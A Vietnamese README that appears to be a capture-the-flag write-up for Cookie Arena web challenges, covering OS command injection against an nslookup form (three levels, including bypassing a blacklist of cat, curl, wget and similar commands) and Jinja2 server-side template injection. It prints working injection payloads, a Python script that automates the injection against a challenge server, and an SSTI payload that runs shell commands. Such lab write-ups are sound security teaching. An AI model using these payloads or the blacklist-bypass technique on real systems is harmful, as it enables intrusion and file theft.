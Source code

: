 <!-- markdownlint-disable MD033 MD041 -->
<p align="center">
<a href="https://battle.cookiearena.org/"><img alt="https://battle.cookiearena.org/" src="images/logo.png" width="100" height="100"></a>
</p>
<!-- markdownlint-enable MD033 -->

# Cookie Arena

Chào mọi người!

Ở repo này, mình sẽ viết lại những cách mà mình đã thực hiện để có thể giải được một số thử thách thuộc mảng Web trên trang [Cookie Arena](https://battle.cookiearena.org/).

Bắt đầu nào! 🔥

## NSLookup (Level 1)

> Challenge này cung cấp một công cụ tra cứu DNS (Domain Name System) đơn giản, cho phép người dùng nhập tên miền (domain) vào ô nhập liệu, và chương trình sẽ trả về kết quả của lệnh nslookup. Đây là một ví dụ cho lỗ hổng OS Command Injection, nơi đầu vào không được kiểm tra đúng cách, cho phép thực thi các lệnh hệ thống ngoài ý muốn.
>
> **Cách hoạt động**:
>
> - Người dùng nhập tên miền vào biểu mẫu (form).
> - Tên miền được xử lý và truyền vào lệnh nslookup thông qua shell_exec().
> - Kết quả được hiển thị lại trong trình duyệt.
>
> **Mục tiêu**: Khai thác lỗ hổng Command Injection để truy cập và đọc nội dung file /flag.txt trên máy chủ.
>
> **Nhiệm vụ**:
>
> - Tìm cách chèn lệnh độc hại thông qua trường nhập domain.
> - Kích hoạt thực thi lệnh tùy ý trên máy chủ để trích xuất nội dung file flag.txt.

Mô tả của thử thách cũng đã rất rõ ràng, đây là một trang web được viết bằng PHP dính lỗ hổng OS Command Injection.

![image](images/nslookup-level-1/image-1.png)

Chúng ta có thể thấy, dữ liệu đầu vào qua tham số `domain` lấy từ URL không được xử lý mà được truyền thằng vào hàm `shell_exec()`, cho phép chúng ta thực thi lệnh hệ thống tuỳ ý.

Do `domain` truyền vào phía sau lệnh `nslookup` nên chúng ta sẽ kết hợp sử dụng dấu `;` để thực thi một loạt các lệnh.

Nhập vào payload `; ls /`, chúng ta xác định được có file `flag.txt` nằm tại `/`.

![image](images/nslookup-level-1/image-2.png)

Để đọc flag, chúng ta dùng payload `; cat /flag.txt`.

![image](images/nslookup-level-1/image-3.png)

## NSLookup (Level 2)

> Challenge này cung cấp một công cụ tra cứu DNS (Domain Name System) đơn giản, cho phép người dùng nhập tên miền (domain) vào ô nhập liệu, và chương trình sẽ trả về kết quả của lệnh nslookup. Đây là một ví dụ cho lỗ hổng OS Command Injection, nơi đầu vào không được kiểm tra đúng cách, cho phép thực thi các lệnh hệ thống ngoài ý muốn.
>
> **Cách hoạt động**:
>
> Người dùng nhập tên miền vào biểu mẫu (form).
> Tên miền được xử lý và truyền vào lệnh nslookup thông qua shell_exec().
> Kết quả được hiển thị lại trong trình duyệt.
>
> **Mục tiêu**: Khai thác lỗ hổng Command Injection để truy cập và đọc nội dung file /flag.txt trên máy chủ.
>
> **Nhiệm vụ**:
>
> Tìm cách chèn lệnh độc hại thông qua trường nhập domain.
> Kích hoạt thực thi lệnh tùy ý trên máy chủ để trích xuất nội dung file flag.txt.

Đến với level 2 này, lập trình viên đã đưa giá trị của tham số `domain` vào trong cặp dấu nháy `''`.

![image](images/nslookup-level-2/image-1.png)

Như vậy, chúng ta cần phải escape khỏi cặp dấu đó mới có thể thực thi được lệnh tuỳ ý.

Chúng ta có thể sử dụng payload ngắn gọn như `';cat /f*;'` để lấy flag. Ở payload này sử dụng wildcard `*` để khớp với tất cả các ký tự, nó rất hữu ích trong những trường hợp mà chúng ta không biết tên file.

![image](images/nslookup-level-2/image-2.png)

## NSLookup (Level 3)

> Tất cả các lệnh đọc file 'cat', 'head', 'tail', 'less', 'strings', 'nl', "ls", "*", "curl", "wget" đều bị chặn và không tồn tại trên hệ thống
>
> - Flag: /flagXXXX.txt
> - Flag Format: CHH{XXX}

Ở level 3 này, tác giả đã thêm vào blacklist để làm khó chúng ta hơn. Tuy nhiên, blacklist chứa rất ít từ và ký tự nên cũng không quá khó để chúng ta bypass thành công.

![image](images/nslookup-level-3/image-1.png)

Ngoài dấu `*` đại diện cho nhiều ký tự thì chúng ta còn có dấu `?` để đại diện cho 1 ký tự. Và chúng ta sẽ kết hợp dấu `?` này với một lệnh siêu hữu ích để đọc được file, đó chính là `grep`.

Vậy, chúng ta có thể truyền payload sau vào tham số `domain` để lấy về flag.

```bash
'; grep "[a-zA-Z]" /flag?????.txt;'
```

![image](images/nslookup-level-3/image-2.png)

Ngoài ra còn có một số cách khác nữa, ví dụ như sử dụng lệnh `find` để tìm được tên file flag, sau đó mới đọc flag.

Mình có viết đoạn script Python sau.

```python
import requests
import re

URL = "http://103.97.125.56:32428/index.php"

proxy = {
    "http": "http://127.0.0.1:8080"
}

search_filename_payload = "'; find / -type f -maxdepth 1 2>/dev/null;'"
read_flag_payload = "'; grep \"[a-zA-Z]\" %s;'"


def search_filename():
    data = {
        "domain": search_filename_payload
    }

    r = requests.post(url=URL, data=data)
    filename = re.search(r"/flag\w{5}.txt", r.text).group(0)

    return filename


def read_flag(filename):
    data = {
        "domain": read_flag_payload % filename
    }

    r = requests.post(url=URL, data=data)
    flag = re.search(r"CHH{\w+}", r.text).group(0)

    print(flag)


if __name__ == "__main__":
    filename = search_filename()
    read_flag(filename)

```

## Jinja2 VCard Generator

> Trang web cho phép bạn tạo và tải về VCard miễn phí. Hãy khai thác lỗ hổng Server Side Template Injection để đọc nội dung file `/flag.txt`

Bên dưới là giao diện của trang web khi chúng ta truy cập:

![image](images/jinja2-vcard-generator/image-1.png)

Tên của thử thách cùng với phần mô tả cũng đã nói cho chúng ta biết là cần khai thác Jinja2 SSTI để lấy flag.

Bên dưới là POST request khi chúng ta nhập đầy đủ các trường thông tin và nhấn "Create".

![image](images/jinja2-vcard-generator/image-2.png)

Sau khi thử lần lượt payload `{{7*7}}` ở các trường, chúng ta sẽ xác định được tại tham số `phone` dính SSTI:

![image](images/jinja2-vcard-generator/image-3.png)

Vậy, chúng ta ta có thể truyền payload cơ bản bên dưới vào tham số `phone` để đọc thành công flag.

```text
{{lipsum.__globals__.os.popen('cat /flag.txt').read()}}
```

![image](images/jinja2-vcard-generator/image-4.png)
